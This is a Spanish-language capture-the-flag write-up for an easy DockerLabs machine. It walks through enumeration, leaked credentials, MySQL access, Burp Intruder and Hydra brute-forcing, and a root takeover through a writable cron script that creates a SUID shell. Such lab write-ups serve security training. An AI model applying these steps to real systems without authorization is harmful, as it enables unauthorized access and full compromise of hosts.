**IP**:  172.17.0.2
**S.O**: Linux
**Source:** DockeLabs
**Level:** Fácil
**Date:** 24 enero 2026
**Autor**:
**Descripción**: 

Web Enumeration
Fuzzing con gobuster
Information Leakage
MYSQL Enumeration
Brute Force with Sniper attack burp suite
Brute force with Hydra
Enumeración de procesos y comandos - Pspy
[[Escalada de Privilegios#**Escala de Privilegios mediante Cron Jobs]] 
- Explotación de Tareas Programadas mediante Inyección de archivos


**Flags**: 


**Begin**:

---

Comenzamos haciendo un ping:

Hay conexión 
TTL: 64 -> Linux

Escaneo de Puertos abiertos TCP

Puertos abiertos: 
Puertos 22 (SSH)
Puertos 80 (HTTP)
Puertos 3306 (MYSQL)

Escaneo de versión a los puertos específico 22,80,3306. 



Accedemos a la pagina web


Inspeccionamos el código fuente.

Y vemos que nos mencionan dos nombres: `Grooti` y `Rocket`

Hacemos un fuzzing de directorios



Y nos dirigimos a `/archives`

No vemos nada interesante y nos dirigimos a otro directorio

Nos dirigimos a `secret` 

Donde nos dan la opcion de descargar y al descargar, nos dan un archivo .txt que dice: `look carefully here ;)`

Al dirigirnos al directorio `imagenes` vemos dos archivos.


Leemos en `README.txt`

Y nos dan una contraseña

Lo probamos en el servicio `mysql` con el usuario `rocket`
```bash
mysql --skip-ssl -h 172.17.0.2 -P 3306 -u rocket -p
```
Y logramos acceder a la base de datos

Indicamos que queremos ver las bases de datos.

Nos vamos a `files_secret`

Luego indicamos que nos muestre las tablas


Luego visualizamos `rutas`


De las rutas vistas, nos dirigimos a `unprivate/secret`

Y vemos un formulario, donde nos piden ingresar en mensaje de texto y un numero

Al ingresar los datos , se nos descarga un archivo .txt

Donde al leer el archivo, nos dice: buen intento
Eso significa que hay una variación en donde es la acertada
Para no intentar uno por uno vamos a Iterar varias peticiones con `Sniper attack` de  `burp suite`

Para ello entonces primero interceptamos la petición con `burp suite`

Lo llevamos al intruder

Y usamos el `Sniper attack`, es un  ataque que prueba varias posiciones en una solicitud HTTP

Ajustamos las opciones, que pruebe con numero del 1 al 100

Y de todos los intentos que realizo hay uno diferente con mayor `legth` el cual es el correcto


Ingresamos el numero en la pagina web, y se nos descarga un archivo: `password16.zip`


Lo descomprimimos, nos piden una contraseña y ingresamos la que habiamos encontrado anteriormente que era `password1`


Con la contraseña encontrada procedemos a realizar una fuerza bruta
En un archivo .txt colocamos todos los nombres encontrados al enumerar la pagina web
```bash
nano users.txt
```


Y procedemos a realizar la fuerza bruta con `hydra`

Y logramos encontrar las cerdenciales

Accedemos al servicio SSH


Para realizar la escalada de privilegios hicimos el uso de la herramienta `pspy` para ver los procesos que se están ejecutando en la maquina victima.

Levantamos un servicio web en el puerto 80 en nuestra maquina kali
```bash
python3 -m http.server 80
```

Y desde nuestra maquina victima lo descargamos 
```bash
wget http://172.17.0.1/pspy64
```

Le damos permisos de ejecucion y lo ejecutamos

Vemos que **root** esta ejecutando un script del directorio `/tmp`

Listamos los archivos del directorio 

Y vemos que si existe el script y tenemos permiso de escritura

Modificamos el script y hacemos ejecute `rootbash` que es aquel que nos dará una shell y tambien le diremos tenga permisos suid


El `malicious.sh` se ejecutara y tendremos a `rootbash` con los permisos suid que la ejecutarlo nos dara una shell con los privilegios de **root** 

Escalada exitosa a root
